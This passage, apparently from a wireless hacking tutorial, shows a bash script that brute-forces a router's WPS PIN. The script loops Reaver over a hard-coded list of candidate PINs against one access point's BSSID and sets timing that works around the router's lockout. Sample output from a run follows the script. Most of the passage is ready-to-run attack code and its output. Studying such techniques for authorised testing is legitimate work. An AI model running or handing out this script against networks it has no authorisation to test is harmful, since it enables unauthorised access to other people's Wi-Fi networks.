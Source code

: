 This command filters and displays the 8-digit pins from the output file, separating them with spaces. We can now store this output in a variable of a bash script and use it for brute-forcing WPS, as shown below.

```bash
#!/bin/bash

#We add generated PINs into this list
PINS='73834410 94229882 73834410 06490959 11184812 63311501 11184812 36499373 63313604 99956042 95661469 89478486 11184812 11184812 95755212 20854836 20144326 33946153 13142452 74163052 51875350 43977680 56587340 95719115 48563710 92148659 05294176 89532331 68175542 71412252 80652847 76229909 46264848 82799427 20233921 31957199 10864111 62327145 30432031 90970948 22369628 33554433 34259283 35611530 20172527 67958146 12345670 74244973'

for PIN in $PINS
do
    echo Attempting PIN: $PIN
    sudo reaver --max-attempts=1 -l 100 -r 3:45 -i mon0 -b 60:38:E0:A2:3D:2A -c 1 -p $PIN
done
echo "PIN Guesses Complete"

```

With this script, we execute the same Reaver command for every PIN in the provided list. While it could be refined or built onto, the basic functionality is as follows:

- For each generated PIN attempted, the script will try the PIN only once, and then wait for 100 seconds if the access point (AP) locks
- Additionally, for every three attempts made, it will pause for 45 seconds.
- The script iterates through all the PINs in the list, which can be seen in action in the example below:

```shell
sudo bash pinguess.sh

Attempting PIN: 73834410

Reaver v1.6.6 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <[email protected]>

[+] Waiting for beacon from 60:38:E0:A2:3D:2A
<snip>
Attempting PIN: 94229882

Reaver v1.6.6 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <[email protected]>

[+] Waiting for beacon from 60:38:E0:A2:3D:2A
<snip>
Attempting PIN: 06490959

Reaver v1.6.6 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <[email protected]>

[+] Waiting for beacon from 60:38:E0:A2:3D:2A
<snip>
Attempting PIN: 76229909

Reaver v1.6.6 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <[email protected]>

[+] Waiting for beacon from 60:38:E0:A2:3D:2A
<snip>

```
